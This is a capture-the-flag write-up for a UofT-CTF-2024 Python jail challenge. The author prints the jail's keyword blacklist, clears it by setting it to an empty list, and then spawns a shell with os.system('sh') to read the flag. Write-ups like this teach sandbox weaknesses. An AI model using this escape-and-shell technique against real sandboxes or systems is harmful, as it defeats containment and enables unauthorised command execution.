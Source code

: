 ```yaml
---
layout: writeup
category: UofT-CTF-2024
chall_description:
points: 100
solves: 295
tags: UofT-CTF-2024 misc misc/pyjail misc/blacklist
date: 2024-1-15
comments: false
---
```


@windex told me that jails should be sourceless. So no source for you.  

Author: SteakEnthusiast  

`nc 35.226.249.45 5000`  

---

We're given a pyjail without a source file.  

After a bit of exploration, I entered `print(dir())`. This returned the following:  

```py
['__annotations__', '__builtins__', '__cached__', '__doc__', '__file__', '__loader__', '__name__', '__package__', '__spec__', 'blacklist', 'cmd', 'i']
```

So there's a blacklist variable. Can we print it out?  

```py
print(blacklist)
```

This returns:

```py
['import', 'exec', 'eval', 'os', 'open', 'read', 'system', 'module', 'write', '.']
```

Perfect. Now we know what's blacklisted.  

I wasn't sure how to proceed, so I turned to Google. By simply searching `pyjail blacklist`, I found [this](https://ctftime.org/writeup/37232). Its input didn't quite work since it included a `.`, but it gave me an idea. What if I just set blacklist to an empty list?  

```py
blacklist = []
print(blacklist)
```

```py
[]
```

It worked! Now we can just pop a shell and get the flag:  

```py
import os; os.system('sh')
```

```
ls
cat flag
```

    uoftctf{you_got_out_of_jail_free}